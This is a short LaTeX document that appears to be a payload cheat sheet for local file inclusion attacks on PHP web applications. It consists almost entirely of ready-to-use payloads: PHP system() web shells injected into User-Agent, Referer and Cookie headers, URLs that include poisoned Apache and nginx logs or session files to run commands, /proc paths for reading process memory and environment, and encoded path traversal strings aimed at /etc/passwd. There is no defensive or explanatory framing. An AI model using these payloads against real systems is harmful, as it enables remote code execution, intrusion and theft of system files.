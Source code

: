 \documentclass[12pt]{article}
\begin{document}
\subsection{Log Poisoning Payloads}

\begin{lstlisting}
# Malicious headers
User-Agent: <?php system($_GET['c']); ?>
Referer: <?php system($_GET['c']); ?>
X-Forwarded-For: <?php system($_GET['c']); ?>
Cookie: <?php system($_GET['c']); ?>

# Include log
/index.php?page=/var/log/apache2/access.log&c=id
/index.php?page=/var/log/nginx/access.log&c=id
\end{lstlisting}

\subsection{Session Poisoning Payloads}

\begin{lstlisting}
# Poison session via parameter
/index.php?lang=<?php system('id'); ?>

# Find session path
/var/lib/php/sessions/sess_[SESSION_ID]
/tmp/sess_[SESSION_ID]

# Include session
/index.php?page=/var/lib/php/sessions/sess_abc123
\end{lstlisting}

\subsection{Proc Filesystem Payloads}

\begin{lstlisting}
# Environment variables
/proc/self/environ
/proc/self/cmdline
/proc/self/fd/0-50
/proc/self/maps
/proc/self/mem
/proc/version
/proc/cpuinfo
/proc/mounts
\end{lstlisting}

\subsection{Encoding Bypass Payloads}

\begin{lstlisting}
# Single encoding
..%2f..%2f..%2fetc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd

# Double encoding
..%252f..%252f..%252fetc/passwd
%252e%252e%252f%252e%252e%252fetc/passwd

# Unicode encoding
%c0%ae%c0%ae%c0%afetc/passwd
%uff0e%uff0e%uff0fetc/passwd

# Alternative traversal
....//....//....//etc/passwd
..;/..;/..;/etc/passwd
\end{lstlisting}
\end{document}
